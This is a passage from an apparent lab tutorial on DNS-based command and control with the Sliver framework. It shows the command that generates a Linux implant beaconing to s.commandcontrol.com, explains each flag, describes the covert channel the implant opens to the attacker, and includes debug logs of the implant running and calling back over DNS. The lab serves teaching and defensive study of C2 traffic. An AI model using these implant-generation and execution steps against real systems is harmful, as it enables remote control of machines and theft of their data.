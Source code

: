 ```bash
sliver > generate --dns s.commandcontrol.com --os linux --save /shared-data --debug --reconnect 1

[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 24s
[*] Implant saved to /root/sliver/TENDER_HOSPITAL
```

- **Explanation:**
  - `--dns s.commandcontrol.com`: Specifies the DNS domain for the implant to communicate with.
  - `--os linux`: Generates a Linux-compatible binary.
  - `--save /shared-data`: Saves the generated implant to the shared data directory.
  - `--debug`: Includes debug information for easier troubleshooting.
  - `--reconnect 1`: Sets the reconnection interval.

**Note:** The implant is a binary executable designed to communicate back to the C2 server using DNS queries. The debug flag is used here for educational purposes to observe the implant's behavior.

**Sliver** can generates a **malicious binary** that can be executed on a Linux machine. Once this payload is executed on the target system, it tries to establish a **covert communication channel** back to the attacker’s server, here using DNS queries. These DNS queries are sent to the domain which the attacker controls (here s.commandcontrol.com-. The attacker can use this communication channel to issue commands to the infected machine or extract sensitive information.

## Step 4: Transfer the Payload

While it's possible to transfer the payload over DNS, it's often slow. For this lab, we'll transfer it directly.

- **Optional Challenge:** After completing the lab, try using tools like **DNSStager** to transfer the payload over DNS for a deeper understanding.

## Step 5: Execute the Implant on the Client

1. **Access the Client Shell:**

   ```bash
   make client_shell
   ```

2. **Run the Implant:**

   Replace `TENDER_HOSPITAL` with the name of your generated implant:

   ```bash
   / # /shared-data/TENDER_HOSPITAL
   2024/11/23 15:48:23 sliver.go:95: Hello my name is TENDER_HOSPITAL
   2024/11/23 15:48:23 limits.go:58: Limit checks completed
   2024/11/23 15:48:23 sliver.go:113: Running in session mode
   2024/11/23 15:48:23 session.go:64: Starting interactive session connection loop ...
   2024/11/23 15:48:23 transports.go:41: Starting c2 url generator () ...
   2024/11/23 15:48:23 transports.go:104: Return generator: (chan *url.URL)(0xc00007c6c0)
   2024/11/23 15:48:23 transports.go:92: Yield c2 uri = 'dns://s.commandcontrol.com'
   2024/11/23 15:48:23 transports.go:92: Yield c2 uri = 'dns://s.commandcontrol.com'
   2024/11/23 15:48:23 session.go:81: Next CC = dns://s.commandcontrol.com
   2024/11/23 15:48:23 session.go:81: Next CC = dns://s.commandcontrol.com
   2024/11/23 15:48:23 transports.go:92: Yield c2 uri = 'dns://s.commandcontrol.com'
   2024/11/23 15:48:23 session.go:171: Attempting to connect via DNS via parent: s.commandcontrol.com
   2024/11/23 15:48:23 dnsclient.go:150: DNS client connecting to 's.commandcontrol.com' (timeout: 5s) ...
   2024/11/23 15:48:23 dnsclient.go:295: [dns] found resolvers: [10.89.1.3]
   2024/11/23 15:48:23 crypto.go:199: TOTP Code: 52809890
   2024/11/23 15:48:23 dnsclient.go:713: [dns] Fetching dns session id via 'baakb4nb9w68.s.commandcontrol.com.' ...
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of baakb4nb9w68.s.commandcontrol.com. ?
   ```